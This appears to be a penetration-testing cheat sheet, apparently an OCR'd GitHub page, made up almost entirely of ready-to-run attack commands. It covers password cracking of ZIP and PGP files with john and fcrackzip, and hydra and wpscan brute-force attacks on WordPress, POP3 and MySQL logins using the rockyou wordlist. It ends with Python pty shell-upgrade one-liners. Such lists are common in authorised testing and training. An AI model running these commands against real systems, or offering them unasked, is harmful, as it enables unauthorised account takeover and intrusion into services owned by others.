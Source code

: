 ### ZIP
```
/usr/share/john/zip2john {ZIP_FILE} > {ZIP_FILE}.hash
john --wordlist='{WORDLIST_PATH}' {ZIP_FILE}.hash
john --show {ZIP_FILE}.hash
```

```
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' {ZIP_FILE}
```

### WordPress Login
```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt -f {TARGET} http-post-form "/weblog/wp-login.php:log=^USER^&pwd=^PASS^:login_error"
```

```
wpscan --url {TARGET} -U {USERS_LIST} -P /usr/share/wordlists/rockyou.txt
```

### Pop3
```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt {TARGET} -f pop3
```

### MySQL
```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt {TARGET} -f mysql
```

### PGP File
```
gpg2john {FILE} > {FILE}.john
john --wordlist=/usr/share/wordlists/rockyou.txt {FILE}.john
```



















# Shell Spawn

### Python
```
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
